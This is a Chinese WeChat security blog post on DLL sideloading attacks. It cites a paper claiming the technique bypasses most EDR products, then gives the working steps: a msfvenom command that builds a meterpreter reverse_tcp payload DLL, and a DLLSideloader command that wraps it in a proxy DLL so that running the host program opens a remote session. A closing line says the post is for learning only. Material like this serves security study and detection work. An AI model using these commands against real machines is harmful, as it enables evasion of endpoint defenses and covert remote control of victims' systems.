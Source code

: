 ##  Sideloading DLL攻击

鸿鹄实验室a  [ 鸿鹄实验室 ](javascript:void\(0\);)

**鸿鹄实验室** ![]()

微信号 gh_a2210090ba3f

功能介绍 鸿鹄实验室，欢迎关注

____

__

收录于话题

今天看到了国外的一个白皮书，地址如下：

  

https://res.mdpi.com/d_attachment/jcp/jcp-01-00021/article_deploy/jcp-01-00021.pdf

  

内容主要是各类技术在遇到EDR时能不能成功的绕过。

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823075055.png)

  

最后以一份表格总结了各类功能以及绕过效果：

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823075109.png)

  

我们可以看到，dll几乎绕过了所有的EDR，而这里的DLL指的便是Sideloading DLL。

  

Sideloading DLL最早应该是在一份APT报告中被提出来的，即DLL侧加载。

文档地址：

  

https://www.recordedfuture.com/apt10-cyberespionage-
campaign/?__cf_chl_jschl_tk__=pmd_VKrHUzdleNocPJnRemvxCVGmjY8gkMwlsZM361GthcI-1629625791-0-gqNtZGzNAjujcnBszQil

  

![]()

  

原理如下：

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823075110.png)

即中间经过转发来加载恶意dll。

  

利用方法：

  

首先找到一个存在dll加载(或劫持)的程序，然后使用msf生成dll

  

  * 

    
    
    msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f dll -a x86 > payload.dll

  

然后使用DLLSideloader来生成我们的转发dll，工具地址：

  

https://github.com/SkiddieTech/DLLSideloader

  

然后生成所需的文件即可

  

  * 

    
    
    Invoke-DLLSideLoad libcurl.dll payload.dll

  

然后执行exe文件，即可获取session。

  

  
  
  
  
  
     ▼更多精彩推荐，请关注我们▼

  

 **请严格遵守网络安全法相关条例！此分享主要用于学习，切勿走上违法犯罪的不归路，一切后果自付！**

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823075111.png)

  

  

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

Sideloading DLL攻击

最多200字，当前共字

__

发送中

微信扫一扫  
关注该公众号

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

[知道了](javascript:;)

**长按识别前往小程序**

![]()

